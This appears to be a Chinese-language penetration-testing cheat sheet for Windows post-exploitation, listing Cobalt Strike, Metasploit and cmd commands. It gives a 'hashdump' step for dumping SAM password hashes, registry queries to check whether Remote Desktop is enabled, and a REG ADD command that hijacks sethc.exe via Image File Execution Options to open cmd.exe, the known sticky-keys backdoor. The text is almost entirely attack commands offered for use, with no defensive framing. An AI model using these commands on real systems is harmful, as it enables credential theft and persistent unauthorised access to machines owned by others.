 ## CS下的操作

```
hashdump

sam
```

# 注册表查询

> 从注册表中的键值检测是否开启终端服务，如果是0，则为开启，为1则是关闭

## 在CMD中的操作：

```
reg query "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections
reg query "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections

HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server
    fDenyTSConnections    REG_DWORD    0x0
```

## 在MSF中的操作：(不推荐)

```
reg queryval -k "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" -v fDenyTSConnections

post/windows/gather/enum_termserv 
```

## 在CS中的操作

```
shell reg query "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections
```

# 易访问特征

>  使用sethc启动cmd

## 在cmd中操作

```
REG ADD "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\sethc.exe" /v Debugger /t REG_SZ /d "C:\windows\system32\cmd.exe" /f
```
